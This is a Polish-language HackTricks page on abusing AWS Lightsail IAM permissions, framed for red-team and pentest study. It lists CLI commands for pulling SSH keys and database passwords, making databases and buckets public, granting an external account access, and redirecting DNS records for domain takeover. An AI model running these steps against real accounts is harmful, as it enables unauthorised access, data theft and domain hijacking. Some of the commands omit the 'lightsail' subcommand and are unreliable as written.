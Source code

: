 # AWS - Lightsail Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Lightsail

Aby uzyskać więcej informacji o Lightsail, sprawdź:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ważne jest, aby zauważyć, że Lightsail **nie używa ról IAM należących do użytkownika**, ale do zarządzanego konta AWS, więc nie możesz nadużywać tej usługi do privesc. Jednak **wrażliwe dane** takie jak kod, klucze API i informacje o bazach danych mogą być znalezione w tej usłudze.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

To uprawnienie pozwoli ci uzyskać klucze SSH do uzyskania dostępu do instancji:
```
aws lightsail download-default-key-pair
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:GetInstanceAccessDetails`

To uprawnienie pozwoli Ci wygenerować klucze SSH do uzyskania dostępu do instancji:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:CreateBucketAccessKey`

To uprawnienie pozwoli Ci uzyskać klucz do dostępu do koszyka:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w wiadrze.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

To uprawnienie pozwoli Ci uzyskać dane logowania do bazy danych:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:UpdateRelationalDatabase`

To uprawnienie pozwoli Ci zmienić hasło do dostępu do bazy danych:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Jeśli baza danych nie jest publiczna, możesz również uczynić ją publiczną z tymi uprawnieniami za pomocą

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:OpenInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Dostęp do wrażliwych portów.

### `lightsail:PutInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu. Należy zauważyć, że wywołanie to zamknie każdy port otwarty, który nie jest na liście.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:SetResourceAccessForBucket`

Te uprawnienia pozwalają na przyznanie instancjom dostępu do koszyka bez dodatkowych poświadczeń.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencjalny wpływ:** Potencjalny nowy dostęp do koszyków z wrażliwymi informacjami.

### `lightsail:UpdateBucket`

Dzięki temu uprawnieniu atakujący mógłby przyznać własnemu kontu AWS dostęp do odczytu koszyków lub nawet uczynić koszyki publicznymi dla wszystkich:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencjalny wpływ:** Potencjalny nowy dostęp do kubełków z wrażliwymi informacjami.

### `lightsail:UpdateContainerService`

Dzięki tym uprawnieniom atakujący mógłby przyznać dostęp do prywatnych ECR z usługi kontenerów.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencjalny wpływ:** Uzyskanie wrażliwych informacji z prywatnego ECR

### `lightsail:CreateDomainEntry`

Napastnik z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

### `lightsail:UpdateDomainEntry`

Atakujący z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
